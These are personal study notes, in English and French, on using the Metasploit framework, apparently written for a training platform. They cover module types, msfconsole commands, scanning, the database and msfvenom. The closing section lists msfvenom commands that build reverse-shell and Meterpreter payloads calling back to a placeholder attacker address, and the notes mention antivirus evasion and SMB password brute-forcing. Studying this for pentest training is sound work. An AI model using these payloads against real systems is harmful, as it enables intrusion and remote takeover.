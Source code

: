 # Metasploit 

```bash
msfconsole
```

## Tools :
- msfvenom

	
## Modules :
(types :  exploits / vulnerability / payloads)
	
	- Auxiliary -> any supporting module : scanners / fuzzers / crawlers
		liste : $ tree -L 1 auxiliary/ 
	- Encoder -> encode a payload in hope firewalls dont stop it
		  -> detect is based on comparing with known threats DataB
		liste : $ tree -L 1 encoder/
	- Evasion: attempt to evade antivirus software (works on encoded pl)
		$ tree -L 2 evasion/
	- Exploits 
		$ tree -L 1 exploits/
	- NOPs: NOPs (No OPeration) do nothing, literally.
		 often used as a buffer to achieve consistent payload sizes
		$ tree -L 1 nops/
	-Post -> post exploitation (end of a pentest)
		$ tree -L 1 post/
	- PAYLOADS : The codes that will run on the target system. 
		$ tree -L 1 payloads/
		IMPORTANT : 3 CATEGORIES :
			Singles : Self-contained payloads (work alone)
			Stagers : Set up a connection between msf and a 
				the target system / useful when working with
				staged payloads / Small piece that is sent
				first. It will download the rest of the pl
			Stages: Downloaded by the stager. 
				This will allow you to use larger sized
				payloads.
				
		DIFFERENCIATION :
			Single payloads : as above
			Staged payloads : send first a stager and a stages
				it's a larger payload
				
		IDENTIFY SINGLE/INLINE VS STAGED PL (between shell&reverse):
			generic/shell_reverse_tcp	-> _ mean single
			windows/x64/shell/reverse_tcp	-> / mean staged
			
MSFCONSOLE work similarly to a normal shell:
	$ msfconsole 
	(unless set as a global variable, all parameter settings will be
	lost if you change the module)
	
	BASICS COMMAND LINES :
		$ history
		$ help <command>
		$ use Path/to/the_exploit ou nombre apres un search
		$ show options	-> shows selected exploit related options
		$ show payloads ou le type d'un module -> module related to 
		the selected exploit
		$ back -> leave context (like exit)
		$ info -> info related to the exploit
		$ search cve number ou exploit name , any key word...
			- give the path / the rank :
			https://docs.metasploit.com/docs/using-metasploit/
			intermediate/exploit-ranking.html
		$ set NAMEOFPARAM
		$ setg NAMEOFPARAM -> global set
		$ unset NAMEOFPARAM ou marche avec unset all
		$ unsetg NAMEOFPARAM
		$ exploit ou $ run -> lance l'exploit
			- -z flag to run it in bg
		$ check -> regarde si la target est vulnérable avant de $run
		$ backgroung ou CTRL+Z
		$ sessions -> displauys any active sessions
			- -i <session nb> flag to interact with any session
		
	EXPLOIT PARAMS :
		RHOST : target IP (also works with ip/16 and 
			range IP.52-IP.56 to scan a range of ip
			even with a file.txt (1 IP per line)
		RPORT : target port
		Payload : the pl we are using
		LHOST : local host (our ip)
		LPORT : local Port (our port)
		SESSION : Each connection using Metasploit will have a 
			session ID. 
			You will use this with post-exploitation modules
			that will connect to the target system using an
			existing connection.
		
PORT SCANNING :
	$ search portscan
	$ use x
	$ set params
	$ exploit
	PARAMETERS :
		CONCURRENCY: Number of targets to be scanned simultaneously.
		PORTS: Port range to be scanned. (1-10 000 by default)
		RHOSTS:
		THREADS: Number of threads that will be used simultaneously. 
			nmapMore threads will result in faster scans. 

UDP service Identification :
	exploit : scanner/discovery/udp_sweep
	quick way to identify services such as DNS or NetBIOS. 

SMB Scans:
	 expl = smb_enumshares or smb_version
	 
RANDOM USEFUL MODULES :
	- all portscanners modules
	- http_version
	- smb_login -> bruteforce usernames and passwords in smb
	- exploit/multi/handler -> comme netcat mais avec les msfrshells
	
MSF DATABASE :
	To store informations about targets
	
	Launching : (it may take 2min to load)
		$ systemctl start postgresql (in normal shell)
		$ sudo msfdb init (in normal shell)
		Now in msfconsole :
		$ db_status
	
	In DB ($msf console -q): /!\ -q may save me
		$ workspace -> show available workspace
		    -a, --add <name>          Add a workspace.
		    -d, --delete <name>       Delete a workspace.
		    -D, --delete-all          Delete all workspaces.
		    -h, --help                Help banner.
		    -l, --list                List workspaces.
		    -r, --rename <old> <new>  Rename a workspace.
		    -S, --search <name>       Search for a workspace.
		    -v, --list-verbose        List workspaces verbosely.
		$ help (in msf shell) -> displays backend DB command
	
	USEFULL things :
		$ db_nmap = marche exactement comme nmap mais stock les data
		$ hosts ->
			-h -> help
			-R -> add db value tu RHOST parameter
		$ services ->
			-h -> help
			-S serviceName -> search for a specific service
			
			SERVICES INTERSSANTS
    			HTTP: potentially host a  web application with
    				vulnerabilities (SQLi) or  (RCE). 
    			FTP: Could allow anonymous login 
    			SMB: Could be vulnerable to SMB exploits like
    				MS17-010
    			SSH: Could have default or easy to guess credentials
    			RDP: Could be vulnerable to Bluekeep or allow
    				desktop access if weak credentials were
    				used. 


 VULNERABILITY SCANNING :
 	looking for easily identifiable vulns
 	look for scanners modules
 	
EXPLOIT
	$ search xxx
	$ info
	...
	$ exploit
	
	Exploits have a preset payload but we can change it
		$ show payloads
		$ set payloadnumber
		(it may add/del parameters)
		
MSFVENOM : work as msfpayloads and msfencode
	Liste des payloads :
		$ msfvenom -l payloads
	Formats des payloads crées possibles :
		$ msfvenom --list formats
	
	exemple : msfvenom -p php/meterpreter/reverse_tcp
		LHOST=10.10.186.44 -f raw -e php/base64
	
	Flags :
		-p pathtopayload : payload
		-e encode format : encode
		-f : output format
	
	USEFULL PAYLOADS :
	/!\ probleme d'IP avec openvpn : thm n'affiche pas la bonne ??
		ELF :
		msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
		WINDOWS :
		msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
		PHP : (/!\ necessite de modifier le debut avec <?php et la fin avec ?>)
		msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
		ASP :
		msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
		PYTHON :
		msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
